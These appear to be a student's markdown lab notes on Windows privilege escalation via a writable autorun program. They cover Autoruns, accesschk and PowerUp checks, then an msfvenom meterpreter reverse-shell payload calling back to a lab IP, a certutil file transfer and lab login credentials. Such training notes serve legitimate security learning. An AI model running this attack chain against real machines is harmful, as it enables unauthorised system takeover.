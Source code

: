 - Find the autorun binary using `autorun64.exe` tool:
	- `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe`
	- In Autoruns, click on the `Logon` tab.
		- ![[Pasted image 20250416170445.png]]
- Use `accesschk.exe`to find access to the `My Program`executable:
	- `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"`
		- `-w`: Show only write access
		- `-v`: Verbose
		- `-u`: Suppress errors
	- ![[Pasted image 20250416170714.png]]
	- We are looking for **RW Everyone** (Read Write Everyone)

# Finding using `powerup`
---
- `powershell -ep bypass`
- `. .\PowerUp.ps1`=> **==Space Is Important here**==
- `Invoke-AllChecks`
	- ![[Pasted image 20250416171548.png]]

# Escalation via Autorun
---
- Generate an executable:
	- `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.158.181 lport=9002 -f exe -o program.exe`
- Start listener on `msfconsole`
- Start python http server
- **Transfer the generated executable to the location of program** using internet explorer
	- Didn't work, using: `certutil` worked
- ![[Pasted image 20250416173258.png]]
- Disconnect or logout and reconnect as admin user:
	- `TCM : Hacker123`